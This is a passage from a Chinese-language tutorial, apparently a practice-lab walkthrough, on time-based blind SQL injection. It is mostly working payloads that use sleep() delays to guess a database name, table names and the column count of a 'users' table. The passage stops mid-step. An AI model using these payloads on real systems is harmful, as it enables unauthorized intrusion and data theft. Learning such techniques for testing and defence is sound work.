 说明存在字符型的基于时间的盲注。

2.猜解当前数据库名:

首先猜解数据名的长度：

```
1' and if(length(database())=1,sleep(5),1) #  //没有延迟 
1' and if(length(database())=2,sleep(5),1) #  //没有延迟 
1' and if(length(database())=3,sleep(5),1) #  //没有延迟 
1' and if(length(database())=4,sleep(5),1) #  //明显延迟
```

说明数据库名长度为4个字符。

接着采用二分法猜解数据库名：

```
1' and if(ascii(substr(database(),1,1))>97,sleep(5),1)#  //明显延迟
...
1' and if(ascii(substr(database(),1,1))<100,sleep(5),1)#  //没有延迟 
1' and if(ascii(substr(database(),1,1))>100,sleep(5),1)#  //没有延迟 
```

说明数据库名的第一个字符为小写字母d。

重复上述步骤，即可猜解出数据库名。

3.猜解数据库中的表名

首先猜解数据库中表的数量：

```
1' and if((select count(table_name) from information_schema.tables where table_schema=database() )=1,sleep(5),1)#  //没有延迟
1' and if((select count(table_name) from information_schema.tables where table_schema=database() )=2,sleep(5),1)#  //明显延迟
```

说明数据库中有两个表。

接着挨个猜解表名：

```
1’ and if(length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=1,sleep(5),1) #  //没有延迟
...
1’ and if(length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=9,sleep(5),1) #  //明显延迟
```

说明第一个表名的长度为9个字符。

采用二分法即可猜解出表名。

4.猜解表中的字段名

首先猜解表中字段的数量：

```
1’ and if((select count(column_name) from information_schema.columns where table_name= ’users’)=1,sleep(5),1)#  //没有延迟
...
1’ and if((select count(column_name) from information_schema.columns where table_name= ’users’)=8,sleep(5),1)#  //明显延迟
```
